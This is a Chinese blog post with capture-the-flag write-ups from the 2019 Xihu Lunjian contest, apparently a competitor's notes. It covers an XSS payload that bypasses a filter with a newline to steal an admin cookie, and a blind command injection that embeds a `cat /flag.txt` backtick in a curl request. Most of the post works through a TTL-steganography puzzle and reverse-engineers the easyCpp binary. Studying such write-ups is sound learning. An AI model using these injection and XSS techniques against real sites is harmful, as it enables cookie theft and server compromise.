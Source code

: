 ```yaml
---
layout: post
title: "2019西湖论剑部分wp"
tags: [blog]
author: wqpw
---
```


web环境关了...  
第一个是储存型XSS，可以换行绕过过滤，然后打管理员cookie.

```html
<img src=x onerror
=alert(1)>
```

然后有一个无回显的命令执行，想到用curl

```shell
curl -X GET -i 'http://ip/index.php?`cat /flag.txt`
```

一个是简单的LFI漏洞利用.

还有一个是[.DS_Store泄露](https://github.com/lijiejie/ds_store_exp)和[.git泄露](https://github.com/lijiejie/GitHack)及zip已知明文攻击加[php伪随机数漏洞](https://www.openwall.com/php_mt_seed/).

还有一个[Google CTF](https://ctftime.org/writeup/10369)原题.

(其实搞出前两个...)

主要记下差点做出来的2个题.
[题目文件](/assets/1904055ca752dbcbdfe.zip)

## 奇怪的TTL字段

题目描述:

```text
我们截获了一些IP数据报，发现报文头中的TTL值特别可疑，怀疑是通信方嵌入了数据到TTL，我们将这些TTL值提取了出来，你能看出什么端倪吗？
```

![1](/assets/xhlj1.png)

统计后发现只有63,127,191,255四个数，**猜测对应00,01,10,11**.

处理好进行转换然后放16进制编辑器里，变成这样:

![2](/assets/xhlj2.png)

然后分析下这个新的文件，发现是六张图片.

![3](/assets/xhlj3.png)

然后再用foremost等工具处理一下，得到一张完整的图片.

![4](/assets/xhlj4.png)

扫码得到

`key:AutomaticKey cipher:fftu{2028mb39927wn1f96o6e12z03j58002p}`

用[http://rumkin.com/tools/cipher/vigenere-autokey.php](http://rumkin.com/tools/cipher/vigenere-autokey.php)输入key和密文得到flag.

![5](/assets/xhlj5.png)

## easyCpp

ida+f5看了看，用的全是标准库的函数，所以不难.

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v3; // r15
  __int64 v4; // rdx
  __int64 v5; // rdx
  __int64 v6; // rdx
  __int64 v7; // rdx
  __int64 v8; // r12
  __int64 v9; // rbx
  __int64 v10; // rax
  __int64 v11; // rdx
  __int64 v12; // rbx
  __int64 v13; // rax
  __int64 v14; // r8
  __int64 v15; // r9
  __int64 v16; // rbx
  char v17; // al
  unsigned int *v18; // rax
  const char **v20; // [rsp+0h] [rbp-190h]
  signed int i; // [rsp+1Ch] [rbp-174h]
  signed int j; // [rsp+20h] [rbp-170h]
  char v23; // [rsp+30h] [rbp-160h]
  char v24; // [rsp+50h] [rbp-140h]
  char v25; // [rsp+70h] [rbp-120h]
  char v26; // [rsp+90h] [rbp-100h]
  char v27; // [rsp+B0h] [rbp-E0h]
  __int64 v28; // [rsp+D0h] [rbp-C0h]
  __int64 v29; // [rsp+F0h] [rbp-A0h]
  char v30[72]; // [rsp+110h] [rbp-80h]
  unsigned __int64 v31; // [rsp+158h] [rbp-38h]

  v20 = argv;
  v31 = __readfsqword(0x28u);
  std::vector<int,std::allocator<int>>::vector(&v23, argv, envp);
  std::vector<int,std::allocator<int>>::vector(&v24, argv, v4);
  std::vector<int,std::allocator<int>>::vector(&v25, argv, v5);
  std::vector<int,std::allocator<int>>::vector(&v26, argv, v6);
  std::vector<int,std::allocator<int>>::vector(&v27, argv, v7);
  for ( i = 0; i <= 15; ++i )
  {
    scanf("%d", &v30[4 * i], v20);
    std::vector<int,std::allocator<int>>::push_back((__int64)&v24, (__int64)&v30[4 * i]);
  } //scanf读入16个数 在数组v[30]和vector v24中
  for ( j = 0; j <= 15; ++j )
  {
    LODWORD(v29) = fib(j);
    std::vector<int,std::allocator<int>>::push_back(&v23, &v29);
  } //v23存入前16个斐波拉契数
  std::vector<int,std::allocator<int>>::push_back((__int64)&v25, (__int64)v30); //v25.push_back(v30[0])
  v8 = std::back_inserter<std::vector<int,std::allocator<int>>>(&v25); //vector<int>::iterator v8 = &v25
  v9 = std::vector<int,std::allocator<int>>::end(&v24); //v9 = v24.end()
  v29 = std::vector<int,std::allocator<int>>::begin(&v24); //v29 = v24.begin()
  v10 = __gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>::operator+(&v29, 1LL); //v10 = v29+1
  std::transform<__gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>,std::back_insert_iterator<std::vector<int,std::allocator<int>>>,main::{lambda(int)#1}>(
    v10, //从v24.begin() + 1
    v9, //到v24.end() 即从第二个到最后一个
    v8, //按push_back顺序存入v25
    (__int64)v30); //main::{lambda(int)#1}的参数之一 相当于对v24第二个到最后一个元素调用main::{lambda(int)#1}
/*
参考 https://blog.csdn.net/jerryjbiao/article/details/7523110
*/
......
```

transform调用的匿名函数:

```c++
__int64 __fastcall main::{lambda(int)#1}::operator() const(_DWORD **a1, int a2)
{
  return (unsigned int)(**a1 + a2); 
}
```

所以v24是{1,2,3,...,16}的话，现在v25就是{1,3,4,...,17}

接着是

```c++
  std::vector<int,std::allocator<int>>::vector(&v28, v9, v11);
  v12 = std::vector<int,std::allocator<int>>::end(&v25);
  v13 = std::vector<int,std::allocator<int>>::begin(&v25);
  std::accumulate<__gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>,std::vector<int,std::allocator<int>>,main::{lambda(std::vector<int,std::allocator<int>>,int)#2}>(
    (__int64)&v29, // [rbp-A0h]
    v13, 
    v12, 
    (__int64)&v28,  
    v14,
    v15,
    v3);
```

看了很久也没看懂`accumulate`和`main::{lambda(std::vector<int,std::allocator<int>>,int)#2}`干了什么......

所以先看看后面的
```c++
  std::vector<int,std::allocator<int>>::operator=(&v26, &v29); //v26 = v29
  std::vector<int,std::allocator<int>>::~vector(&v29);
  std::vector<int,std::allocator<int>>::~vector(&v28);
  if ( (unsigned __int8)std::operator!=<int,std::allocator<int>>(&v26, &v23) )
  { //比较v26和v23(前16个斐波拉契数)是否全部相等
    puts("You failed!");
    exit(0);
  }
  //下面就是输出flag
  //略
```

所以尝试动态分析，研究v29发生了什么变化.

linux下用gdb加载程序，输入layout asm查看汇编代码，在调用accumulate的指令上下下断点.

![6](/assets/xhlj6.png)

然后运行并输入1-16，到断点1时查看v29

![7](/assets/xhlj7.png)

由前面可知`$rbp-0xa0`的值v29是v24.begin()的值，是地址.

然后执行accumulate之后:

![8](/assets/xhlj8.png)

可知是把transform后的v25反转一下.  
大概是这个意思reverse(v25.begin(),v25.end());v29=v25;  
然后v26=v25并且比较v26和v23.

综上，我们需要16个数，满足从第二个数到最后一个数加上第一个数然后反转之后与前16个斐波拉契数一一对应.

于是我们可以写个脚本算一下

```python
def fib(n):
    if n == 0 or n == 1:
        return 1
    return fib(n-2)+fib(n-1)

v23 = [fib(i) for i in range(0,16)][::-1]
v23[1:] = map(lambda x: x-v23[0], v23[1:])
print str(v23).replace(', ','\n')
```

结果正确

![9](/assets/xhlj9.png)

